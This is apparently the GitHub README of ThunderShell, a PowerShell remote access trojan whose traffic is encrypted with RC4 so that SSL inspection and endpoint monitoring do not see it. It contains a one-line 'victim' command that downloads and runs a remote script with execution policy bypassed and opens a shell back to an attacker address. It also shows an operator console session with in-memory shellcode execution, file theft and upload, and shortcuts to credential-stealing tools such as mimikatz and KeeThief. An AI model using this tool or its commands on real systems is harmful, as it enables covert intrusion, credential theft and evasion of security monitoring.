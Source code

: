 # ThunderShell

ThunderShell is a Powershell based RAT that rely on HTTP request to communicate. All the network traffic is encrypted using a second layer of RC4 to avoid SSL interception and defeat network hooks.

# Dependencies

```
apt install redis-server
apt install python-redis
```

# How it works

Once the PowerShell script is executed and HTTP request will be issued to the server. The body of each POST request contains the RC4 encrypted communication. Why RC4 because it's strong enough to hide the traffic. The idea is to upload / download data over the network that cannot be inspected. The RAT support HTTPS but some security product may perform SSL interception and obtain visibility on your data leading to detection of malicious payload (PowerShell script, stager etc...). The RC4 encryption allow you to communicate over the wire without leaking your payload. The RC4 encryption also protect against endpoint agent that inspect traffic directly on the host, again the traffic is decrypted at the "software" level blocking detection at that level too.

To use the power of the tool there is some built in function such as `fetch`, `exec` and `upload` that allow you to run your payload quite easily.

* Fetch flow

```
The server will fetch a resource (path, url) 
        Send the data over the RC4 encrypted channel
                The PowerShell RAT will decrypt the payload 
                        PowerShell Execute the final payload
```

For example if you fetch PowerView.ps1 script it will be fully encrypted over the wire avoiding detection since the server is proxying the request and fully encrypt the data.

# Usage

Victim:
```
powershell -exec bypass IEX (New-Object Net.WebClient).DownloadString("http://ringzer0team.com/PS-RemoteShell.ps1); PS-RemoteShell -ip 1.1.1.1 -port 8080 -Key test -Delay 2000
```

Attacker side example:

```

```

```
me@debian-dev:~$ python ThunderShell.py default.json

Thunder Shell 1.1 | Clients Server CLI
Mr.Un1k0d3r RingZer0 Team 2017
--------------------------------------------------------

[+] Starting web server on 192.168.17.129 port 8080

(Main)>>>
[+] Registering new shell 10.0.0.153:RingZer0\MrUn1k0d3r
[+] New shell ID 13 GUID is 4c05a17f-036a-4cd4-9446-da46281d5754


[-]  is not a valid command

(Main)>>> help

Help Menu
-----------------------

        list      args (full)             List all active shells
        interact  args (id)               Interact with a session
        event     args (log/http, count)  Show http or error log (default number of rows 10)
        kill      args (id)               Kill shell (clear db only)
        exit                              Exit the application
        help                              Show this help menu

(Main)>>> list

List of active shells
-----------------------

  11    10.0.0.153:RingZer0\MrUn1k0d3r
  13    10.0.0.153:RingZer0\MrUn1k0d3r
  5     10.0.0.153:RingZer0\MrUn1k0d3r
  2     10.0.0.153:RingZer0\MrUn1k0d3r
  3     10.0.0.153:RingZer0\MrUn1k0d3r

(Main)>>> interact 13

(10.0.0.153:RingZer0\MrUn1k0d3r)>>> help

Shell Help Menu
-----------------------

        background                              Return to the main console
        refresh                                 Check for previous commands output
        fetch         args (path/url, command)  In memory execution of a script and execute a commmand
        exec          args (path/url)           In memory execution of code (shellcode)
        read          args (remote path)        Read a file on the remote host
        upload        args (path/url, path)     Upload a file on the remote system
        delay         args (milliseconds)       Update the callback delay
        help                                    Show this help menu


List of path alias
-----------------------

        powerup                 PowerUp tool set
        wmiexec                 Remote-WmiExecute utility
        searchevent             Search-EventForUser utility
        keethief                KeeThief tool set (Get-KeePassDatabaseKey)
        mimikatz                Invoke-Mimikatz utility
        inveigh                 Invoke-Inveigh utility
        powerview               PowerView tool set)

(10.0.0.153:RingZer0\MrUn1k0d3r)>>> whoami
RingZer0\MrUn1k0d3r



(10.0.0.153:RingZer0\MrUn1k0d3r)>>> delay 0
Updating delay to 0
Delay is now 0


(10.0.0.153:RingZer0\MrUn1k0d3r)>>> fetch powerview Get-NetLocalGroup -ComputerName 127.0.0.1
[+] Fetching https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
[+] Executing Get-NetLocalGroup -ComputerName 127.0.0.1


(10.0.0.153:RingZer0\MrUn1k0d3r)>>> refresh


ComputerName : 127.0.0.1
AccountName  : 10-R90G3RLC-1GG/Administrator
IsDomain     : False
IsGroup      : False
SID          : S-1-5-21-630091541-2956043977-842813908-500
Description  : Built-in account for administering the computer/domain
PwdLastSet   : 8/11/2017 6:01:45 PM
PwdExpired   : False
UserFlags    : 66049
Disabled     : False
LastLogin    : 8/11/2017 5:58:47 PM
```

# Todo

Implement in memory protection to avoid endpoint in memory detection

# Credit 
Mr.Un1k0d3r RingZer0 Team 2017
